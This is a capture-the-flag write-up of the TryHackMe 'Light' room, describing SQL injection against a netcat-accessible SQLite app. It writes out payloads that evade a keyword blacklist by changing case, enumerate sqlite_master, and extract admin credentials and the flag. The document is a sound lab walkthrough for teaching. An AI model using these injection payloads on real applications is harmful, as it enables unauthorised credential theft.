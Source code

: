 ```yaml
---
clayout: ctf
title: Light
type: TryHackMe
date: 2025-01-19
level: Easy
icon: /ctf/tryhackme/light/icon-room.png
image: /ctf/tryhackme/light/icon-room.png
description: Welcome to the Light database application!
ctf-link: https://tryhackme.com/room/lightroom
---
```


## Challenge Information

> *I am working on a database application called Light! Would you like to try it out? If so, the application is running
on `port 1337`. You can connect to it using `nc 10.10.226.23 1337`. You can use the username `smokey` to get started.*

## Challenge Overview

This challenge presents a database application accessible via a Netcat connection. After connecting to
`nc 10.10.226.23 1337`, we are prompted to enter a username. Using the provided username `smokey`, we successfully
authenticate with the following credentials:

```bash
> nc 10.10.226.23 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

The objective is to extract the `admin` username, its password, and the flag.

## Enumeration

### Initial Observations

Upon logging in, the application accepts SQL-like queries to interact with the database. However, we quickly discover
that key SQL keywords such as `UNION`, `SELECT`, `union`, and `select` are blacklisted, as shown below:

```sql
' UNION SELECT name FROM sqlite_master WHERE type='table
```

```bash
Ahh there is a word in there I don't like :(
```

This limitation requires us to craft payloads with alternate casing or spacing to bypass the blacklist.

### Bypassing the Blacklist

We successfully bypass the blacklist by altering the case or spacing of the blocked keywords:

```sql
' Union Select name FROM sqlite_master WHERE type='table
```

This payload reveals the presence of a table:

```bash
admintable
```

### Extracting Table Schema

Next, we query the `sqlite_master` table to retrieve the SQL definition of the `admintable`:

```sql
' Union Select sql FROM sqlite_master WHERE name='admintable
```

Output:

```sql
CREATE TABLE admintable
(
    id       INTEGER PRIMARY KEY,
    username TEXT,
    password INTEGER -- The password field is incorrectly labeled as an integer but contains string data. For example, the password for the user `smokey` is 'vYQ5ngPpw8AdUmL'.
)
```

### Extracting the Admin Credentials

#### Admin Username

To retrieve the admin username, we use the following payload:

```sql
' Union Select username FROM admintable WHERE username LIKE '%
```

Output:

```bash
TryHackMeAdmin
```

#### Admin Password

To obtain the admin password, we query the `admintable` with a specific condition:

```sql
' Union Select password FROM admintable WHERE username='TryHackMeAdmin
```

Output:

```bash
[REDACTED]
```

## Retrieving the Flag

Finally, we extract the flag using a query that avoids the admin-specific condition:

```sql
' Union Select password FROM admintable WHERE username != 'TryHackMeAdmin
```

Output:

```bash
[The flag]
```

## Reference

- [The Schema Table](https://www.sqlite.org/schematab.html)